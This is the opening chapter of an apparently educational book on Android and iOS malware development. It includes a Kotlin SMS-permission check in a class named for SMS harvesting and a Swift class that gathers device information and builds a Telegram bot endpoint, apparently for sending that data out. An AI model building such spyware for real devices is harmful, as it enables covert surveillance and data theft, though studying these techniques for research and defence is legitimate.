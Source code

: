 ## 2. mobile malware development intro

﷽

In this book I will show you a little about how you can create simple malware on `Android` and `iOS`, and I will show examples and tricks from real malware found in the wild during the years.      

Most of the tutorials in this book require a understanding of the `Kotlin`:    

```kotlin
package cocomelonc.hack.tools

import android.Manifest
import android.annotation.SuppressLint
import android.content.Context
import android.content.pm.PackageManager
import android.net.Uri
import android.provider.Telephony.Sms

class HackSmsLogs (private val context: Context) {
    @SuppressLint("NewApi")
    private fun isSmsPermissionGranted(context: Context): Boolean {
        val isGranted = context.checkSelfPermission(Manifest.permission.READ_SMS)
        return isGranted == PackageManager.PERMISSION_GRANTED
    }
    //....
}
```

and `Swift` programming languages:

```java
import Foundation
import SystemConfiguration.CaptiveNetwork
import Network

public class HackManager {
    public static let shared = HackManager(); private init() {}
    public var botToken: String = ""
    public var chatId: String = ""
    private let locationManager = LocationManager()
    private let monitor = NWPathMonitor()

    private var telegramApiUrl: String {
        return "https://api.telegram.org/bot\(botToken)/sendMessage"
    }
    
    // collect systeminfo
    private func collectSystemInfo() throws -> String {
        let device = UIDevice.current
        let processInfo = ProcessInfo.processInfo
        
        let systemName = processInfo.operatingSystemVersionString
        let hostName = processInfo.hostName
        let userName = NSUserName()
        let mem = processInfo.physicalMemory / (1024 * 1024 * 1024)
        let model = device.localizedModel
        let batteryLevel = device.batteryLevel
        let deviceName = device.name

        let systemInfo = """
        📱 System Info:
        📱 Version IOS: \(systemName)
        📱 Device name: \(deviceName)
        📱 Host Name: \(hostName)
        📱 User Name: \(userName)
        📱 Model: \(model)
        📱 Memory usage: \(mem) GB
        📱 Battery level: \(Int(batteryLevel * 100))%
        """
        return systemInfo
    }
}
```

The book is divided into three logical chapters:    
- Android Malware Development Intro    
- iOS Malware Development Intro    
- Mobile Malware in the Wild (still in progress...)    

*Please do not ignore sections 4,5,6 (even if you've already read it just refresh your memory) these are important concepts for future mobile malware sections**    

All material in the book is based on my trainings/workshop from
[Prishtina](https://github.com/cocomelonc/bsprishtina-2024-maldev-workshop/) and [my](https://cocomelonc.github.io/) own articles.    

If you have questions, you can ask them on my [email](mailto:cocomelonkz@gmail.com).    

My Github repo: [https://github.com/cocomelonc](https://github.com/cocomelonc)    

**Everything written in this book was used for understanding concepts and for educational and research purposes, the author is not responsible for your illegal activities!**    